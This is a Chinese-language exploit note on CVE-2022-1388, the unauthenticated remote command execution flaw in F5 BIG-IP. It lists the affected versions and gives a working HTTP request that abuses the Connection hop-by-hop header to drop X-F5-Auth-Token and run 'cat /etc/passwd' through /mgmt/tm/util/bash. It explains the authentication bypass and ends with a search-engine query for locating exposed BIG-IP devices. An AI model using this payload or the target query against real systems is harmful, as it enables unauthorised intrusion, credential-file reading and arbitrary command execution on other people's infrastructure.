


# F5 BIG-IP 未授权RCE漏洞（CVE-2022-1388）

## 利用条件：

- BIG-IP 16.x: 16.1.0 - 16.1.2
- BIG-IP 15.x: 15.1.0 - 15.1.5
- BIG-IP 14.x: 14.1.0 - 14.1.4
- BIG-IP 13.x: 13.1.0 - 13.1.4
- BIG-IP 12.x: 12.1.0 - 12.1.6
- BIG-IP 11.x: 11.6.1 - 11.6.5

## 利用方法：

#### POC
```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: asdf
Connection: keep-alive,X-F5-Auth-Token
Content-Type: application/json
Content-Length: 83

{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}
```


#### bypass


## 漏洞分析：

1. Apache（模块 `mod_pam_auth.so`）会检查 `X-F5-Auth-Token` 是否为空。只有当存在 `X-F5-Auth-Token` 头并且不为空时，才会交给后端的 Jetty 进行认证，Jetty 来检查 `X-F5-Auth-Token` 的值是否合法（`EvaluatePermissions#evaluatePermission`），从而完成第二次认证，但是 Jetty 判断 `X-F5-Auth-Token` 为空时，将直接 “认为” Apache 已经完成认证从而不会检查提供的信息是否合法，从而实现了认证绕。
2. 如果请求中带有 HTTP 头 `Connection: close, X-Foo, X-Bar`，Apache 会在请求转发到代理前，将 `X-Foo` 和 `X-Bar` 逐一删除。
3. 很容易联想到可以构造特殊请求，通过 Apache 的检查，同时由于 hop-by-hop 滥用漏洞导致转发进入 Jetty 前已经删除了 `X-F5-Auth-Token` 头。
4. 顺利进入了 Jetty 解析，同时又不存在 `X-F5-Auth-Token` 头，从而实现了认证绕过。后面的逻辑处理与 CVE-2021-22986 是一样的，结合 F5 BIG-IP iControl REST 自带接口，很容易实现 RCE 。

## 漏洞环境：

某fa搜索：
` title="BIG-IP&reg;-+Redirect" && "Server" && server=="Apache" `